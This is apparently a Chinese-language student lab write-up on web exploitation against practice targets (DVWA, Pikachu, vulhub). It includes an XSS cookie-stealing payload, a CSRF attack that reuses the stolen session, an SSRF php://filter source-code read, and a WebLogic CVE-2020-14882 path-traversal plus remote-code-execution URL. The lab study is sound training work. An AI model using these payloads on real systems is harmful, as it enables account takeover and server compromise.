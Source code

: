 ### 1. CSRF

#### DVWA-High 等级

1. 使用pablo(密码letmein)用户登录，DVWA Security - High
2. 通过XSS(Reflected)模块(输入`<img src=x OnerrOr=alert(document.cookie)>`)获取pablo用户的cookie信息

![xss-get-cookie](/Users/minwang/Documents/typora_images/xss-get-cookie.png)

3. 切换到CSRF模块，打开burp进行抓包，在CSRF模块提交新密码

![csrf-burp](../../../Documents/typora_images/csrf-burp.png)

4. Cookie段，改成之前xss抓到的cookie值，security改成low，`PHPSESSID=bo5gn68611g61khqn7as1eakqc; security=low`，GET url段的&user_token删除后放行抓到的数据包。显示pablo密码修改成功。用新密码123456登录测试成功。

![password-changed](../../../Documents/typora_images/password-changed.png)



#### 使用 Burp 生成 CSRF 利用 POC

1. 使用kobe用户登录

![csrf-post-kobe](../../../Documents/typora_images/csrf-post-kobe-8559158.png)

2. 修改个人信息，打开burp进行包抓取

![csrf-post-kobe-modify](../../../Documents/typora_images/csrf-post-kobe-modify.png)

3. 使用burp的CRSF POC generator

![csrf-poc-1](../../../Documents/typora_images/csrf-poc-1.png)

![csrf-poc-2](../../../Documents/typora_images/csrf-poc-2.png)

4. 生成的csrf html 替换抓到的数据包最后一段后放行。

![csrf-poc-3](../../../Documents/typora_images/csrf-poc-3.png)



### 2. SSRF（file_get_content），要求获取 ssrf.php 的源码；

1. 在pikatu平台，SSRF(file_get_content)模块，

![ssrf-file-get-content](../../../Documents/typora_images/ssrf-file-get-content.png)



2. 使用file_get_contents()函数构造url，file_get_contents里面带有php://filter 我们用它就可以来读取php源码，直接使用 resource 指定 ssrf.php 文件，可以看到访问成功

```url
http://192.168.216.129:8082/pikachu/vul/ssrf/ssrf_fgc.php?file=php://filter/resource=ssrf.php
```

![ssrf-file-get-content-1](../../../Documents/typora_images/ssrf-file-get-content-1.png)



3. 获取php源码，拿到网站的源代码被解析了，为了不让它解析，需要对代码再做一层编码，拿到之后我们再进行解码，这样就拿到了网站的源代码。在read参数中加入 convert.base64-encode，重新构造url

```url
http://192.168.216.129:8082/pikachu/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```

![ssrf-file-get-content-2](../../../Documents/typora_images/ssrf-file-get-content-2-8563928.png)

![ssrf-file-get-content-3](../../../Documents/typora_images/ssrf-file-get-content-3.png)



### 3. 远程代码执行漏洞：Weblogic RCE

1. 安装docker-compose，下载vulhub

```shell
minwang@minwang-vm-ubuntu:~$ sudo apt install docker-compose
正在读取软件包列表... 完成
正在分析软件包的依赖关系树... 完成
正在读取状态信息... 完成
将会同时安装下列软件：
  containerd.io docker-ce docker-ce-cli python3-attr python3-distutils python3-docker python3-dockerpty python3-docopt
  python3-dotenv python3-jsonschema python3-pyrsistent python3-setuptools python3-texttable python3-websocket
建议安装：
  cgroupfs-mount | cgroup-lite python-attr-doc python-jsonschema-doc python-setuptools-doc
推荐安装：
  docker.io
下列【新】软件包将被安装：
  docker-compose python3-attr python3-distutils python3-docker python3-dockerpty python3-docopt python3-dotenv
  python3-jsonschema python3-pyrsistent python3-setuptools python3-texttable python3-websocket
下列软件包将被升级：
  containerd.io docker-ce docker-ce-cli
升级了 3 个软件包，新安装了 12 个软件包，要卸载 0 个软件包，有 113 个软件包未被升级。
需要下载 47.3 MB 的归档。
解压缩后会消耗 1466 kB 的额外空间。
您希望继续执行吗？ [Y/n] y

minwang@minwang-vm-ubuntu:~$ git clone https://github.com/vulhub/vulhub.git
正克隆到 'vulhub'...
remote: Enumerating objects: 14381, done.
remote: Counting objects: 100% (54/54), done.
remote: Compressing objects: 100% (39/39), done.
remote: Total 14381 (delta 15), reused 44 (delta 10), pack-reused 14327
接收对象中: 100% (14381/14381), 164.22 MiB | 73.00 KiB/s, 完成.
处理 delta 中: 100% (5816/5816), 完成.
正在更新文件: 100% (2065/2065), 完成.

minwang@minwang-vm-ubuntu:~/vulhub/weblogic/CVE-2020-14882$ docker-compose up -d
Creating network "cve-2020-14882_default" with the default driver
Pulling weblogic (vulhub/weblogic:12.2.1.3-2018)...
12.2.1.3-2018: Pulling from vulhub/weblogic
4040fe120662: Pull complete
5788a5fddf0e: Pull complete
88fc159ecf27: Pull complete
138d86176392: Pull complete
586a610c1c83: Pull complete
8362c571c14a: Pull complete
d4802e4ac1d2: Pull complete
Digest: sha256:8ddf63df92426e521e60c2db913602394a799921fb3919094aef012e3ad6b13f
Status: Downloaded newer image for vulhub/weblogic:12.2.1.3-2018
Creating cve-2020-14882_weblogic_1 ... done
```

![weblogic-console](../../../Documents/typora_images/weblogic-console.png)

2. 利用CVE-2020-14882漏洞，访问以下URL，即可未授权访问到管理后台页面：

`http://39.104.26.211:7001/console/css/%252e%252e%252fconsole.portal`  (访问404 not found)

`http://39.104.26.211:7001/console/images/%252e%252e%252fconsole.portal` （成功进入管理后台页面）

`注：%252e%252e%252f 是经过两次URL编码后的../，通过这个就可以实现穿越路径未授权访问后台页面`

![weblogic-console-portal](../../../Documents/typora_images/weblogic-console-portal.png)

```url
http://39.104.26.211:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java .lang.Runtime.getRuntime().exec('touch%20/tmp/geektime2');")
```

![weblogic-add-file](../../../Documents/typora_images/weblogic-add-file.png)